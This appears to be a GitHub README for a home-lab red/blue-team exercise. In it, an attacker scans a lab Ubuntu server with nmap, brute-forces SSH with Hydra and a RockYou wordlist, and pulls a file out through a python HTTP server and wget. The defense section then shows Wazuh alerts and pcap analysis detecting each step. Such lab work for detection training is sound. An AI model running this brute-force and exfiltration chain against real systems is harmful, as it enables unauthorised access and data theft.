









# TECH-BUREAU-SERIES

## PHASE 01: RECON/BRUTEFORCE/EXFILTRATION

#### Whats Showcased
<section>
  <ul class="hover-card"> <li><strong>OFFENSE</strong> Target enumeration, SSH bruteforce, Data exfiltration </li>
  </ul>
  <ul class="hover-card"> <li><strong>DEFENSE</strong> Tuning Alerts to reduce noise, Comparing pcap file findings </li> 
  </ul>
</section>

The initial Setup
The Ubuntu server is configured via auditctl to watch a specific file in derectory – PROJECT.5527, any interaction with the containing schematic file will raise an alert.
<<AUTDITCTL + LOCAL RULE>>
The server firewall iptables is also watching for any suspicious incoming trafic to the main ports to try and raise the alert in case of an outside port scan.
<<IPTABLES + LOCAL RULE>>

# ADVERSARIES MOVE
Without further ado. In this scenario we know the ip address of our target server and we got a username that we belive has a week password.  We assemble our handfull of penetraton tools and begin. 
## 01.Server Recognisence Using nmap

<pre data-label="nmap scan"><code>
<strong>square@AT4K-3XPR3S:</strong>~/BUREAU.01$ nmap -p 22,80,443,3306 TECH-BUREAU

Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-21 16:11 CET
Nmap scan report for TECH-BUREAU (192.168.1.10)
Host is up (0.00061s latency).

PORT     STATE  SERVICE
22/tcp   <strong>open</strong>   ssh
80/tcp   <strong>closed</strong> http
443/tcp  <strong>closed</strong> https
3306/tcp <strong>open</strong>   mysql

Nmap done: 1 IP address (1 host up) scanned in 0.31 seconds
</code></pre>

We are interested in the port status, we are going for 4 ports in this scenario.  
We are looking for a bruteforce attack here. We confirm port 22 for SSH is up.  

## SSH credential Hydra Attack
<pre data-label="hydra bruteforce"><code>
<strong>square@AT4K-3XPR3S:</strong>~/BUREAU.01$ hydra -l intern -P ROCK_YOU_10.txt ssh://TECH-BUREAU

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak
Hydra starting at 2026-02-21 16:12:15
[WARNING] Many SSH configurations limit the number of parallel tasks
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:1/p:10), ~1 try per task
[DATA] attacking ssh://TECH-BUREAU:22/

[22][ssh] host: <strong>TECH-BUREAU</strong>   login: <strong>intern</strong>   password: <strong>football</strong>
1 of 1 target successfully completed, 1 valid password found
Hydra finished at 2026-02-21 16:12:21
</code></pre>
Hydra is used for the SSH brute force, we use the username *intern* and a custom top 10 RockYou passwords file. 

## SSH IN TO THE SERVER
<pre data-label="SSH"><code>
<strong>square@AT4K-3XPR3S:</strong>~/BUREAU.01$ ssh intern@TECH-BUREAU
intern@tech-bureau's password:<strong>football</strong>
</code></pre>
We SSH under the username *intern* the destination is **TECH-BUREAU** and the password we use is *football*.

## TARGET FILE SEARCH
<pre data-label="find the specs"><code>
<strong>intern@TECH-BUREAU-UBUNTU-24:</strong>/home$ find . -type f -name "Frame*"
find: ‘./lead_engineer/.cache’: Permission denied
find: ‘./lead_engineer/.local/share’: Permission denied
./lead_engineer/PROJECT.5527/<strong>Frame_specs.txt</strong>
find: ‘./lead_engineer/.ssh’: Permission denied
<strong>intern@TECH-BUREAU-UBUNTU-24:</strong>/home$ 
</code></pre>
We are in, using the *find* command we search for the file Frame_specs.txt

## CHECK DIRECTORY AND CONCATINATE
<pre data-label="ls and cat"><code>
<strong>intern@TECH-BUREAU-UBUNTU-24:</strong>/home/lead_engineer/PROJECT.5527$ ls
<strong>Frame_specs.txt</strong>
<strong>intern@TECH-BUREAU-UBUNTU-24:</strong>/home/lead_engineer/PROJECT.5527$ cat Frame_specs.txt

Project 5527/T1 - experemental frame specs.

Locomotive weight with tender = 944.700 pounds.
The original frames is a casting.
The frame lenght = 64 feet.
The frame weight = 70,000 pounds.

IMPORTANT! The 4-4-4-4 wheel arrangement as an uncoupled 4-8-4.
The running gear is a smaller — four 10-foot main rods.

Result: less total weight, shorter cylinder stroke, and less wear and tear on parts.
</code></pre>
We have changed the directory and located the coveted schematic. we use the humble *cat* command to confirm the data.

## ESTABLISHING A PYTHON SERVER
<pre data-label="http.server"><code>
<strong>intern@TECH-BUREAU-UBUNTU-24:</strong>/home/lead_engineer/PROJECT.5527$ python3 -m http.server 8000
  
Serving HTTP on 0.0.0.0 port <strong>8000</strong> (http://0.0.0.0:8000/) ...
</code></pre>
With the file confirmed we want to snatch it for our industrial espionage purpose. A quick and dirty way is to establish a simple HTTP server using python.

## EXFILTRATE VIA ATTACK TERMINAL
<pre data-label="wget"><code>
<strong>intern@TECH-BUREAU-UBUNTU-24:</strong>~/BUREAU.01$ wget http://TECH-BUREAU:8000/Frame_specs.txt
--2026-02-21 16:23:12--  http://tech-bureau:8000/Frame_specs.txt
Resolving tech-bureau (tech-bureau)... 192.168.1.10
Connecting to tech-bureau (tech-bureau)|192.168.1.10|:8000... <strong>connected.</strong>
HTTP request sent, awaiting response... <strong>200 OK</strong>
Length: 398 [text/plain]
Saving to: ‘Frame_specs.txt’

Frame_specs.txt        <strong>100%[==========================>]</strong>     398  --.-KB/s    in 0s      

2026-02-21 16:23:12 (12.0 MB/s) - <strong>‘Frame_specs.txt’</strong> saved [398/398] 
</code></pre>
With the file confirmed safeley on our attack machine we are done with this server and its time to leave.

## LEAVE
<pre data-label="exit"><code>
<strong>intern@TECH-BUREAU-UBUNTU-24:</strong>/home/lead_engineer/PROJECT.5527$ exit
logout
Connection to tech-bureau closed.
<strong>square@AT4K-3XPR3S:</strong>~/BUREAU.01$
</code></pre>
Thank You and Good Bye.

  
  ⦿
  

# DEFENSES MOVE
We did a little bit of tinkering before starting this scenario, and as a result we have catered alerts just for the occation. The firewall is checking for tcp packets to 4 specific ports. The auditctl is monitoring a particularly sensitive file on the server. Lets see if we were ready for an attack.
## WAZUH ALERTS

<small>“01.wazuh-alerts.png”<small>

## WAZUH PORTSCAN ALERT

<small>“02.wazuh-nmap.png”<small>
  
Observe the results of our custom rule, we can see cleaerly the attacker IP address, the machine being scanned and ofcource the port number, 443 in this case.

## PCAP PORT-CROSS

<small>“03.pcap-nmap.png”<small>
  
We can confirm the nmap scan on exactly 4 ports. I will point out the detail that to a [SYN] request ports 80 and 443 are giving out an immediate [RST, ACK] to a scan attempt proving that the ports are closed. Ports 22 and 3306 however give a sequence of  [SYN] → [SYN,ACK] → [ACK] → [RST,ACK] signifying a handshake and than a immediate drop from the portscanner.
####Port Scan Confirmed

## WAZUH BRUTEFORCE ALERT

<small>“04.wazuh-hydra.png”<small>
  
## PCAP BRUTE-CROSS

<small>“05.pcap-hydra.png”<small>
  
With the hydra bruteforce we can simply observe the time signature and notice that a burst of 10 SSH protocol requests to the Ubuntu Server happening at the same time, followed by a series of key exchanges.
####Brute Force Confirmed

## WAZUH FILE OPENED ALERT

<small>“06.wazuh-cat.png”<small>
  
## WAZUH EXFILTRATION ALERT

<small>“07.wazuh-exfil.png”<small>
  
## PCAP EXFIL-CROSS

<small>“08.pcap-get-request.png”<small>
  
## PCAP HTTP STREAM

<small>“09.pcap-exfil-clear.png”<small>
  
In the HTTP stream we can observe a connection handshake followed by a GET request for the Frame_specs file, 
followed by a [PHS,ACK] push, that's the moment our data is getting exfiltrated. 
We than see an http code 200 and a connection closing sequence of  [FIN,ACK] → [ACK] 2ice (graceful close) 
####DATA EXFILTRATED

  
  ⦿
  

## CONCLUDION

[3.1]

